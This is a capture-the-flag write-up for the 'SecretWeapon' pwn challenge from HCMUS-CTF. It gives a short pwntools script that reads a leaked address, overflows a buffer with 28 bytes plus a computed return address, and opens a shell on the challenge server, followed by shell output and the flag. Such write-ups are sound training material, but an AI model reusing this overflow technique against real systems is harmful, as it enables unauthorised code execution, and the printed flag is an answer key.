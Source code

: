 ## SecretWeapon (100 points)

#### Solved by nhanlun

```
The war is comming!!! Could you have me to get the weapons

nc 61.28.237.24 30201

author: pakkunandy
```

```py
from pwn import *

conn = remote("61.28.237.24", 30201)
conn.recvline()
line = conn.recvline().decode().replace("Your current location is townsquare with the address ", "")

address = int(line, 16)
log.info("Leaked: " + hex(address))

conn.sendline(b'A' * 28 + p32(0x112d6 - 0x112ff + address))
conn.interactive()
```

```
$ ls
bin
dev
flag.txt
lib
lib32
lib64
weapon
$ cat flag.txt
HCMUS-CTF{you_know_how_to_compute_location}
```

**Flag:** `HCMUS-CTF{you_know_how_to_compute_location}`
